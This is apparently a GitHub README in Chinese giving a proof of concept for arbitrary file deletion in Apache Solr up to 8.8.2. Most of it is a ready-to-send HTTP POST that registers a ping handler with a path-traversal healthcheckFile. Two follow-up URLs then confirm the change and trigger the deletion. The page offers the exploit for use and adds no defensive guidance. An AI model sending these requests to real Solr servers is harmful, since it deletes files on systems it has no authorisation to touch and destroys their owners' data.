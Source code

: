 # Apache Solr<= 8.8.2 (最新) 任意文件删除


Apache Solr全版本存在任意文件删除漏洞，在Solr默认安装后无需任何其它配置即可删除系统任意文件。

影响版本：
Apache Solr < = 8.8.2

poc：

```
POST /solr/db/config HTTP/1.1
Host: 192.168.33.130:8983
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-type:application/json
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 218
{
  "add-requesthandler": {
    "name": "/testping",
    "class":"solr.PingRequestHandler",
    "defaults":{"echoParams":"explicit"},
    "healthcheckFile":"../../../../../../../../../../../../../aaa.txt",
  }
}

检查创建是否成功:
http://target/solr/db/config/overlay?omitHeader=true

访问：
http://target/solr/db/testping?action=DISABLE

文件已成功删除。
```

详情可以参考：https://mp.weixin.qq.com/s/dECH74n5qjrWT9lok8IkPQ

ref：

https://nox.qianxin.com/vulnerability/detail/98218
